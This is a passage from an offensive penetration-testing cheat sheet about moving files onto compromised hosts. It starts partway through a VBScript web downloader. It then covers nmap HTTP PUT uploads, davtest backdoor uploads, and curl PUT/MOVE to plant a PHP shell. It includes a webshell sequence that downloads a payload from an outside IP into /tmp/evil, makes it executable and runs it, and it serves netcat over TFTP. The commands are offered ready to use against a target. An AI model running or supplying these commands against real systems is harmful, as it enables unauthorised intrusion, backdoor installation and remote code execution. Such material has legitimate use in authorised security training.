          timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

      The file can be run using the following syntax:
      
      `C:\temp\cscript.exe webdl.vbs`
      
-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe
